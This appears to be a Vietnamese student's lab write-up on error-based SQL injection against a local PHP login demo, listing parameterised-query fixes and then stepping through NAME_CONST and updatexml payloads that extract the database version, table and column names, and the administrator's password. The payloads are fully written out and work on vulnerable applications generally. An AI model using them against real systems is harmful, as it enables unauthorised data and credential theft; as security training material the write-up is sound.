


# Link demo : https://github.com/l3mnt2010/task2_KCSC/tree/main/demo/errorBase
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.

Khi em vào giao diện sẽ như thế này

- Đây là đoạn code dính lỗi sqli:

- Em thử dùng lỗi error base để kiểm tra version của data base: em sử dụng payload : 
            username=aaa&password=hih'+OR+(SELECT+*+FROM+(SELECT+NAME_CONST(version(),1),NAME_CONST(version(),1))+as+x)--+-&login=

+ Em nhận được kết quả trả ra là

- Một cách khác nữa là em dùng payload :
            username=aaa&password=hih'and+updatexml(null,concat(0x0a,version()),null)--+-&login

+ Em nhận được kết quả trả ra là :

Và version của database là : 10.4.32-MariaDB

- Em tiếp tục sử dụng payload: username=aaa&password=hih'and+updatexml(null,concat(0x0a,version()),null)--+-&login=

+ Em nhận được tên database là task2_kcsc:

- Em có thể thấy được là kết quả trả ra lỗi của database task2_kcsc bảng users khi em dùng payload:
        'admi'+and+updatexml(null,concat(0x0a, 
        (select+table_name+from+information_schema.tables+where+table_schema%3ddatabase()+LIMIT+1,1)),null)--

- Nếu LIMIT 0,1 thì em có thêm thông tin tên bảng là products nữa ạ:

- Mục đích chính của em là tìm mật khẩu của quản trị viên nên em tiếp tục tìm các cột khác trong bảng users
Payload : 'admi'+and+updatexml(null,concat(0x0a,(select+column_name+from+information_schema.columns+where+table_name='users'+limit+0,1)),null)--

Với LIMIT 0,1 em nhận được cột
'admi'+and+updatexml(null,concat(0x0a,(select+column_name+from+information_schema.columns+where+table_name='users'+limit+0,1)),null)--

Cột này chưa phải thông tin em cần

em tiêp tục tăng giá trị lên 1 2 3 4 5 và lần lượt nhận tên các cột

+TOTAL CONNECTION

+ USER

+ id

đây là tên id của người dùng 
+ password

+ username

- Sau đó em dùng payload: 'admi'+and+updatexml(null,concat(0x0a,(select+username+from+users+limit+0,1)),null)--
    
nhận được tên admin là administrator

- cuối cùng em sẽ lấy mật khẩu administrator
Payload : 'admi'+and+updatexml(null,concat(0x0a,(select+password+from+users+where+username='administrator'+limit+0,1)),null)--
Và kết quả :

-> Vậy là em đã nhận được mật khẩu là hihi123

